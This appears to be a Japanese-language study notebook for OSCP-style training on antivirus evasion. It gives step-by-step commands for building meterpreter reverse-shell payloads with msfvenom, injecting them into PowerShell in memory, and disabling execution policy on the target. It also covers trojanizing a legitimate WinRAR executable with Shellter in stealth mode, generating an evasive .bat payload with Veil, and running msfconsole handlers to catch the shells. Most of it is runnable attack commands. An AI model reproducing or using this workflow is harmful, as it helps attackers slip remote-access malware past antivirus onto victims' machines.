





# AntivirusEvasion

ファイル名を変更するだけでも効果がある場合がある


### PowerShell In-Memory Injection

powershellスクリプトを記述する。AVで検知される。kaliの以下に格納した。

```bash
┌──(kali㉿kali)-[~/Documents/tools/powershell]
└─$ ls im-memory.ps1
```



msfvenomでリバースシェルを作成しps1を更新する。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kali LPORT=4444 -f powershell
```

攻撃対象ホストで同様にファイルを作成する。（例: av_test.ps1)

実行する前にExcecutionポリシーを無効化する。

```
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```


### shellter

* インストール

  ```
  apt-cache search shellter
  sudo apt install shellter
  ```

  ```
  sudo su -
  dpkg --add-architecture i386 && apt-get update &&
  apt-get install wine32:i386
  ```

  ```
  mkdir -p ~/myapp/prefix
  export WINEPREFIX=$HOME/myapp/prefix
  export WINEARCH=win32
  export WINEPATH=$HOME/myapp
  wineboot --init
  shellter
  ```

* Aを選択する

  

* 変更するPEをダウンロードして指定する。

  https://www.rarlab.com/download.htm

  

  

* ステルスモードを有効にする

  

* ペイロードを選択する

  

* exeが出来上がるので攻撃対象に配送して、リバースシェルを待ち受けする。

* msfconsoleの場合

  ```
  msfconsole
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.119.144
  msf exploit(multi/handler) > show options
  msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
  ```

  ※migrateすることでPEのプロセスが終了してシェルを継続可能とする。


### Veil(.batでEvasionファイルを作成可能)

* ダウンロード

```
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/
./config/setup.sh --force --silent
```

* 実行

※~/Documents/tools配下にVeilをダウンロードして実行可能な状態になっている

```
┌──(kali㉿kali)-[~/Documents/tools/Veil]
└─$ ./Veil.py 
Veil>: use Evasion
Veil/Evasion>: use powershell/meterpreter/rev_tcp.py 
[powershell/meterpreter/rev_tcp>>]: set LHOST 192.168.119.144
[powershell/meterpreter/rev_tcp>>]: generate
```

* payloadは自動で.batファイルで作成された。batファイルを移動する

```
mv /var/lib/veil/output/source/17-3-5-6.bat ~/Documents/OSCP/17.AntivirusEvasion/ 
```

* 攻撃対象ホストに転送する

```
割愛
```

* msfconsoleのハンドラーで待ち受け

  ```bash
  msfconsole
  msf > use exploit/multi/handler
  msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.119.144
  msf exploit(multi/handler) > show options
  msf exploit(multi/handler) > exploit
  ```

  